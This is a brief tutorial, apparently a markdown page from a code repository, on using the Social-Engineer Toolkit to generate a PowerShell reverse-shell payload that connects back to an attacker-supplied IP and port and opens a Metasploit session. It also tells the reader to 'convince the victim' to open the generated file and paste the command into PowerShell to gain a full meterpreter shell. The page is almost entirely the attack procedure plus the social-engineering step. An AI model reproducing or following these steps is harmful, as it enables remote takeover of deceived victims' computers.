 Open **SEToolkit** tool

````
sudo setoolkit

set> 1

set> 9

set:powershell> 1

Enter the IPAddress or DNS name for the reverse host: ip_addr

Enter the port for the reverse [443]: click enter

#now opens Metasploit
````

- Now we have to convince the victim to open the file in the route -> /root/.set/reports/powershell/

- Once he opens it, he has to put that command on the powershell, and then, we have a Metasploit session opened.

- Then, we just have a full meterpreter.